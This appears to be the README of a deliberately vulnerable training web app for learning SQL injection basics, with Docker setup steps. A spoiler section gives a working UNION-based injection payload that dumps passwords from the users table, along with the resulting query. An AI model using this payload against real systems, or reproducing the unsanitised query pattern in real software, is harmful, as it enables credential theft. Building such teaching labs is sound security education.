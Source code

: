 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
<summary> :warning: Contains spoilers !</summary>
<br />
Here is an example of a working payload, exposing all passwords in the table:<br /><br />


```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query:


```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
</details>

